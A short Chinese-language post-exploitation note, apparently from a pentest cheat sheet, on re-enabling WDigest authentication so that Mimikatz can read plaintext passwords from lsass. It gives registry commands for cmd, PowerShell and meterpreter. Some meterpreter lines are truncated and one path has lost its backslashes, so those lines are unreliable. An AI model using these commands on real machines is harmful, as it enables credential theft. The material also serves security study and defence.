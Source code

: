微软在 win7 之后就打了补丁 kb2871997，当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass 进程）不再保存明文口令。Mimikatz 将读不到密码明文。

但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
- Windows 7
- Windows 8
- Windows 8.1
- Windows Server 2008
- Windows Server 2012
- Windows Server 2012R 2

**开启 Wdigest Auth**
- cmd
    ```bash
    reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
    ```

- meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogon
    ```

**关闭 Wdigest Auth**

- cmd
    ```bash
    reg add HKLMSYSTEMCurrentControlSetControlSecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
    ```

- powershell
    ```bash
    Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 0
    ```

- meterpreter
    ```bash
    reg setval -k HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest -v UseLogonCreden
    ```

**让管理员重新登录**

在开启 Wdigest Auth 后，需要管理员重新登录才能抓明文密码。

强制锁屏
